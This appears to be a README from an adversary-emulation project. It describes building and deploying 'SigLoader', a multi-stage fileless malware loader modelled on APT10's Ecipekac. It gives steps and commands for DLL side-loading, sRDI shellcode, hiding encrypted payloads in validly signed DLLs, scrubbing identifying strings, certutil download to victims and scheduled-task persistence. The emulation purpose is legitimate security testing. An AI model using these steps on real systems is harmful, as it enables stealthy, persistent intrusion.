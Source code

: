# SigLoader Capability
![SigLoader Diagram](images/SigLoader_diagram.png)


The SigLoader cabability uses both DLL side-loading and reflective DLL loading to install fileless malware
on a system by deploying it into memory. It first uses a legitimate DLL to side-load the first loader file.
This file then extracts data from the end of another DLL that has been modified in a way that keeps it's
signature vaild. It then loads the next loader into memory. This process is repeated once more for the third
loader. The third loader, depending on the setup, will either deploy FYAnti or SodaMaster by loading them
into memory.

Each time we load something into memory, we will be using sRDI.

## Building payloads

A powershell script has been included to convert a dll into shellcode using sRDI. By default the script will output a text file with the shelcode as a string.
It also provides the ability to create a formated cpp array of the shellcode for testing purposes.

When compiling payloads to be run via dll side-loading, ensure that you are using the 'Release' flag in cmake. It will not work if compiled as 'Debug'.


Run from `SigLoader` folder:

1. Building SigLoader for SodaMaster and FYAnti
	* The `build_sigloader.ps1` file will generate each section needed to run Sodamaster, this includes compiling the loaders and appending them to a DLL
	* Check the variables at the top of the `build_sigloader.ps1` script and update them accordingly using your filenames and paths.
	* If the Sodamaster DLL or FYAnti shellcode are missing from the `payload` directory, that build will be skipped
	* Output files will be placed in their respective subdirectories 
	* Running the script
		* `.\build_sigloader.ps1`
1. Generating just the shellcode
	* Generating shellcode string
		* `.\util\build_shellcode.ps1 -dllPath C:\Path\To\DLL.dll -funcName ExportedFunctionName -outFileName payload`
	* Generating a cpp array for testing
		* `.\util\build_shellcode.ps1 -dllPath C:\Path\To\DLL.dll -funcName ExportedFunctionName -outFileName payload -cpp $True`


### Layer 1 loader 

The layer 1 loader is the only one that uses dll side-loading to execute its payload. After deciding on the executable/dll to use, we need to set up proxy
commands to forward the appropriate calls to the correct dll. A variety of tools can be used to extract the exported functions, additionally for 
dlls' stored in 'System32' there is a github repository that includes all of the proxy commands ([here](https://github.com/magnusstubman/dll-exports/tree/main)).
Copy these lines to the top of the layer 1 loader, and then the loader code is called when the dll is loaded in memory.

Currently we are using Notepad++.exe and VERSION.dll for loading our implant.

After appending the payload to the Layer 2 loader, update the CMake file with the payload size. Leave the keys and ancryption order used for SigFlip the same.


### SigFlip

A tool used to append data to the end of a signed binary while keeping the digital signature valid.

The tool has been modified to allow for the use of AES-CBC, DES, and XOR encryption of the payload before being 
added to the file. The order of this encryption can be specified by editing the list in the code and then 
re-compiling it.

A generated diff file for both the [SigFlip.cpp](./util/sigflip_diff.txt) and [Helper.cpp](./util/helper_diff.txt) 
can be found in the `util` directory.

### Cleaning strings from layer1

Currently there are some debug lines that are added to the layer1 executable from cryptopp. These lines include the filepath to the 
user who compiled the program, so they need to be removed.

1. Open `layer1.dll` in [HexD](https://mh-nexus.de/en/hxd/)
1. Use the `Find` tool to search for your username
1. When found, highlight the entire filepath that you want removed (in either the hex or ascii portion, both work)
1. Select `Edit -> Fill Selection`
1. Select the `Zerobytes` option from the pop-up and close the window
1. Search the rest of the file for your username and repeat the above steps

### Use
1. Compile the binary using CMake
	1. In the CMake file update the variables to set the encryption order and keys
1. Create a text file with the data you want to embed
	1. For test purposes, named `test.txt`
1. Run the binary with the `-i` flag
	1. `sigflip.exe -i C:\\Path\\To\Signed\\Binary.dll .\\test.txt .\\modified_binary.dll`
	1. `sigflip.exe -i C:\\Windows\\System32\\kernel32.dll .\\test.txt .\\modified_kernel32.dll`
1. Right click the new dll and confirm the signature is valid
1. Take note of the payload size that is outputted from sigflip. This value needs to be added to the CMake file to compile the loader.

## Deploying

SigLoader and payload components will be staged in the payloads folder for use with the evalsC2server's Simple File Server.

These components will eventually be downloaded to victim machines using the `certutil` utility.

## Using Scheduled Task

A schedlued task is created to automatically run the executable that loads SigLoader. The task can be generated for either a domain admin or System.

Open an administrative shell to run the following commands:
1. Domain Admin
	1. `schtasks /create /sc minute /mo <how often to run> /tn <Name of Task> /tr <Path to Executable> /rl <Privilege Level>`
	1. `schtasks /create /sc minute /mo 15 /tn "Notepad++ Script" /tr "C:\Program Files\Notepad++\notepad++.exe" /rl HIGHEST`
1. System
	1. `schtasks /create /sc minute /mo <how often to run> /tn <Name of Task> /tr <Path to Executable> /rl <Privilege Level> /ru System`
	1. `schtasks /create /sc minute /mo 15 /tn "Notepad++ Script" /tr "C:\Program Files\Notepad++\notepad++.exe" /rl HIGHEST /ru System`
1. Run From DC to Remote Server
	1. `schtasks /create /sc minute /mo <how often to run> /tn <Name of Task> /tr <Path to Executable> /rl <Privilege Level> /s <Remote Server Name> /ru <User>`

Deleting the Scheduled Task
1. Locally:
	1. `schtasks /delete /tn <Name of Task> /f`
	1. `schtasks /delete /tn "Notepad++ Script" /f`
1. Remotely
	1. `schtasks /delete /tn <Name of Task> /s <Remote Server Name> /f`

## Cleanup

A cleanup script had been provided in the [cleanup](../cleanup/SigLoader) folder. The script will close Notepad++ and delete any files that 
are needed to run SigLoader. Additionally it will check for and deelete SigLoaders debug file. Finally it checks for and deletes any service 
or scheduled task created to run SigLoader.

Runing the file:
1. Open Powershell in Administrative mode
1. Run the cleanup script
    * `./cleanup.ps1`
## References
1. https://securelist.com/apt10-sophisticated-multi-layered-loader-ecipekac-discovered-in-a41apt-campaign/101519/#:~:text=The%20Ecipekac%20Layer%20I,it%E2%80%99s%20divisible%20by%20eight
1. https://github.com/med0x2e/SigFlip
1. https://github.com/monoxgas/sRDI
1. https://github.com/magnusstubman/dll-exports/tree/main
